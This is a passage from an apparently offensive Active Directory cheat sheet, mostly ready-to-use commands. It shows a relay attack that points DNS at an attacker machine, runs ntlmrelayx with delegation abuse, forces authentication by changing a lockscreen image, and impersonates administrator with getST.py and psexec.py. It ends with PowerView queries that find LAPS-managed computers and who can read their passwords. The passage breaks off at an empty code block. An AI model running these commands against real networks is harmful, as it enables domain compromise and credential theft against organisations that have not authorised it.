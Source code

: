 ````
Invoke-DNSUpdate -DNSType A -DNSName <HOSTNAME> -DNSData <IP ATTACKING MACHINE> -Credential $creds -Realm <DOMAIN>
```
- Didn't test dnstool for this attack

#### Start NTLMRelay
- Or use `ldaps://<DC IP>` if it doesn't require binding and ldap requires signing
```
sudo python3 ntlmrelayx.py -t ldap://<DC> --delegate-access --escalate-user FAKE01$ --serve-image ./image.jpg --http-port 8080
```

#### Change lockscreen image
- https://github.com/nccgroup/Change-Lockscreen
```
change-lockscreen -webdav \\webdav@8080\
```

#### Impersonate any user
```
getST.py <DOMAIN>/FAKE01@<TARGET FQDN> -spn cifs/<TARGET FQDN> -impersonate administrator -dc-ip <DC IP>
export KRB5CCNAME=administrator.ccache
Psexec.py -k -no-pass <TARGET FQDN>
```

## LAPS
- On a computer, if LAPS is in use, a library AdmPwd.dll can be found in the C:\Program Files\LAPS\CSE directory.
- Another great tool to use: https://github.com/leoloobeek/LAPSToolkit

#### Check if LAPS is installed on local computer
```
Get-Childitem 'C:\Program Files\LAPS\CSE\AdmPwd.dll'
```

### Check existence of LAPS in the domain
#### Check for existence of the ms-mcs-admpwd attribute
```
Get-AdObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=<DOMAIN>,DC=<DOMAIN>'
```

#### Check for computers with LAPS installed
```
Get-DomainComputer | Where-object -property ms-Mcs-AdmPwdExpirationTime | select-object samaccountname
```

#### Check for GPO's with LAPS in its name
```
Get-DomainGPO -Identity *LAPS*
```

#### Check for OU's with LAPS
```
Get-DomainOU -FullData | Get-ObjectAcl -ResolveGUIDs | Where-Object { ($_.ObjectType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty') } | ForEach-Object { $_ | Add-Member NoteProperty 'IdentitySID' $(Convert-NameToSid $_.IdentityReference).SID; $_ }
```

#### Check which computers is part of the OU
```
Get-DomainOU -OUName <NAME> | %{Get-DomainComputer -ADSpath $_}
```

#### Check to which computers the LAPS GPO is applied to
```
````
